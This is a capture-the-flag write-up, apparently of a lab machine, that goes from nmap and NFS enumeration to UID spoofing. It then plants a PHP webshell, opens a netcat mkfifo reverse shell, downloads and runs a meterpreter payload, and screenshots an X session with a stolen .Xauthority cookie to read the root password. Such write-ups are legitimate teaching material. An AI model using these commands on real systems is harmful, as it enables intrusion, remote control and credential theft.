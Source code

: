 # Recon

All-tcp scan:

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.191
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
43477/tcp open  unknown
44955/tcp open  unknown
45443/tcp open  unknown
57109/tcp open  unknown
```

Detailed scan:
```bash
nmap -p 22,80,111,2049,43477,44955,45443,57109 -sVC -oA scans/nmap-tcpdetail 10.10.11.191

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36934/udp   mountd
|   100005  1,2,3      43477/tcp   mountd
|   100005  1,2,3      50728/udp6  mountd
|   100005  1,2,3      52741/tcp6  mountd
|   100021  1,3,4      41999/tcp6  nlockmgr
|   100021  1,3,4      44955/tcp   nlockmgr
|   100021  1,3,4      51010/udp6  nlockmgr
|   100021  1,3,4      54532/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
43477/tcp open  mountd   1-3 (RPC #100005)
44955/tcp open  nlockmgr 1-4 (RPC #100021)
45443/tcp open  mountd   1-3 (RPC #100005)
57109/tcp open  mountd   1-3 (RPC #100005)
```

Endpoint enumeration:
```bash
301      GET         313c http://10.10.11.191/images => http://10.10.11.191/images/
200      GET        6121c http://10.10.11.191/images/icon-2.png
200      GET        1443c http://10.10.11.191/images/search-icon.png
200      GET        3248c http://10.10.11.191/css/owl.carousel.min.css
200      GET      140421c http://10.10.11.191/css/bootstrap.min.css
200      GET       87088c http://10.10.11.191/js/jquery.min.js
200      GET       70808c http://10.10.11.191/js/bootstrap.bundle.min.js
200      GET       45479c http://10.10.11.191/js/jquery.mCustomScrollbar.concat.min.js
200      GET      348226c http://10.10.11.191/images/img-5.png
301      GET         310c http://10.10.11.191/css => http://10.10.11.191/css/
301      GET         309c http://10.10.11.191/js => http://10.10.11.191/js/
200      GET        7381c http://10.10.11.191/css/normalize.css
200      GET       11416c http://10.10.11.191/css/default-skin.css
200      GET        1884c http://10.10.11.191/css/slick.css
200      GET        3653c http://10.10.11.191/css/nice-select.css
200      GET       11752c http://10.10.11.191/css/responsive.css
200      GET       11324c http://10.10.11.191/js/jquery-3.0.0.min.js
200      GET        9868c http://10.10.11.191/js/custom.js
200      GET       25871c http://10.10.11.191/css/bootstrap-reboot.min.css.map
200      GET       28977c http://10.10.11.191/css/bootstrap-grid.min.css
200      GET       14143c http://10.10.11.191/css/jquery.fancybox.min.css
200      GET       28414c http://10.10.11.191/css/icomoon.css
200      GET       31000c http://10.10.11.191/css/font-awesome.min.css
200      GET       37644c http://10.10.11.191/css/bootstrap-grid.css
200      GET       19190c http://10.10.11.191/js/popper.min.js
200      GET       68240c http://10.10.11.191/css/bootstrap-grid.min.css.map
200      GET       53678c http://10.10.11.191/css/animate.min.css
200      GET       97570c http://10.10.11.191/css/bootstrap-grid.css.map
200      GET      172839c http://10.10.11.191/css/bootstrap.css
200      GET      557893c http://10.10.11.191/css/bootstrap.min.css.map
200      GET      918708c http://10.10.11.191/js/plugin.js
200      GET        1803c http://10.10.11.191/images/fb-icon.png
200      GET        6788c http://10.10.11.191/images/icon-3.png
200      GET        5016c http://10.10.11.191/images/logo.png
200      GET        4908c http://10.10.11.191/images/icon-1.png
200      GET        2120c http://10.10.11.191/images/instagram-icon.png
200      GET        1384c http://10.10.11.191/images/quote-icon.png
200      GET        1864c http://10.10.11.191/images/twitter-icon.png
200      GET        5412c http://10.10.11.191/images/footer-logo.png
200      GET        1077c http://10.10.11.191/images/left-arrow.png
200      GET        5303c http://10.10.11.191/images/icon-4.png
200      GET        1996c http://10.10.11.191/images/linkedin-icon.png
200      GET       19394c http://10.10.11.191/css/style.css
200      GET       56444c http://10.10.11.191/images/img-7.png
200      GET       50898c http://10.10.11.191/images/img-8.png
200      GET      264731c http://10.10.11.191/images/img-4.png
200      GET      168650c http://10.10.11.191/images/header-bg.png
200      GET      598555c http://10.10.11.191/images/img-1.png
200      GET      377261c http://10.10.11.191/images/img-6.png
200      GET      579224c http://10.10.11.191/images/bg-1.png
200      GET      608271c http://10.10.11.191/images/img-2.png
200      GET      549018c http://10.10.11.191/images/img-9.png
200      GET     2108554c http://10.10.11.191/images/banner-bg.png
200      GET        1063c http://10.10.11.191/images/right-arrow.png
200      GET        4800c http://10.10.11.191/css/bootstrap-reboot.css
200      GET        3842c http://10.10.11.191/css/meanmenu.css
200      GET       32532c http://10.10.11.191/index.html
200      GET       35973c http://10.10.11.191/css/jquery-ui.css
200      GET       42839c http://10.10.11.191/css/jquery.mCustomScrollbar.min.css
200      GET        3937c http://10.10.11.191/css/bootstrap-reboot.min.css
200      GET       59714c http://10.10.11.191/css/bootstrap-reboot.css.map
200      GET      482108c http://10.10.11.191/images/img-3.png
200      GET       32532c http://10.10.11.191/
200      GET      425225c http://10.10.11.191/css/bootstrap.css.map
200      GET     1901591c http://10.10.11.191/images/contact-bg.png
403      GET         277c http://10.10.11.191/server-status
```

# Shell as alex
We can see a network share on port 2049.

```bash
showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

We mount it under /tmp/nfs:

```bash
sudo mount -t nfs 10.10.11.191:/ ./nfs -o nolock
```

We quickly notice, that /var/www/html share is not accessible with
our current permissions. But, if the NFS is misconfigured, we can
impersonate user that has permissions to read and write to folder.

We check who owns it:

```bash
ls -ald html/
drwxr-xr--@ - 2017 22 Aug 02:40 html
```

We see it's a user with uid 2017. We can modify /etc/passwd
and set the uid of our user to this number. After launching new shell
with our new uid, we can access the directory for reading and writing.

Since we know that this directory is most likely the same we are
accessing via web application on port 80, and we have write permission
to it now, we can plant a php webshell inside and access it from the site:

```bash
kali@kali /t/n/v/w/html> nvim shell.php
kali@kali /t/n/v/w/html> ls
css/  images/  index.html  js/  shell.php
kali@kali /t/n/v/w/html> cat shell.php 
<?php system($_GET['cmd']); ?>
```

Back to the site, we can successfuly run commands:

![](shell.png)

In order to get reverse shell, we tried some bash shells
from revshells.com, but they didn't seem to work. Instead,
nc mkfifo shell worked:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f
```

After urlencoding it and sending it to our php webshell, we successfuly
obtain shell as user alex.

# Shell as root

First, in order to upgrade our shell, we will create meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 -f elf -o backupjob LPORT=9002
sudo python -m http.server 80
```

Then we run msfconsole and type:
```bash
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

On target machine:
```bash
wget http://10.10.14.23/backupjob
chmod +x backupjob
./backupjob
```

Back to the files we extracted from NFS share, there are also files
belonging to other user with id of 1001; we change our id in /etc/passwd 
once again and successfuly retrieve them. Particularly interesting are
xorg files, because they mean that probably someone is logged in. 

We are interested in two files:

```
.Xauthority
.xsession-errors
```

.Xauthority contains a session cookie with which we can authenticate to
the session, and .xsession-errors can give us useful information about the session.

First we use python server to transport .Xauthority file to target machine, and point
the environmental variable to it:

```bash
export XAUTHORITY=/home/alex/.Xauthority
```

We want to take a screenshot in order to see what is on the logged-in user screen.
We can do that using xwd command. It will look like that:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

As we can see, we will need the display id in order to execute it:

```bash
cat xsession-errors
...
dbus-update-activation-environment: setting DISPLAY=:0
...
```

We run the command:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

Then we use our meterpreter session to download the file (python server should also work):

```bash
download /tmp/screen.xwd
```

After that, we can see root password in plaintext on the acquired screenshot.
We su as root, and read the flag.
